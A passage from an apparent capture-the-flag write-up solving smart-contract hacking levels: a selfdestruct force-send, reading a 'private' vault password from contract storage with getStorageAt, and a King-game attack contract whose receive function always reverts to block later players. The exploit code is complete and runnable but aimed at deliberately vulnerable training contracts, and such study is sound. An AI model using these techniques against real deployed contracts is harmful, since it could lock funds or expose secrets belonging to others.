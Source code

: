 ```js
```

I deployed my `Hack` contract and then sent it some ether. Calling the `hack` function executes the `selfdestruct` which transfers the balance to the `Force` contract. This completes the level.

## <a id="08"></a>Level 08 - Vault

### Objective

1. Unlock the vault.

<details><summary>Level Contract</summary></details>

### Exploit

The `password` variable is stored in index 1 of the contract's storage. This is stored on chain and **can be read by anyone**.

I entered the following function call in the browser console to read the value of `password`.

```js
await web3.eth.getStorageAt(contract.address, 1);
```

I then called `unlock` with the password to unlock the vault.

## <a id="09"></a>Level 09 - King

### Objective

1. Break the game.

<details><summary>Level Contract</summary></details>

### Exploit

Let's deploy a hack contract with an amount of ether equal or greater than the current prize amount which is 10e15 wei.

```js
contract KingHack {
  King target;

  constructor(address payable _targetAddress) payable {
    target = King(_targetAddress);
  }

  function hack() external {
    (bool success,) = payable(address(target)).call{value: target.prize()}("");
    require(success, "Did not work!");
  }

  receive() external payable {
    revert();
  }
}
```
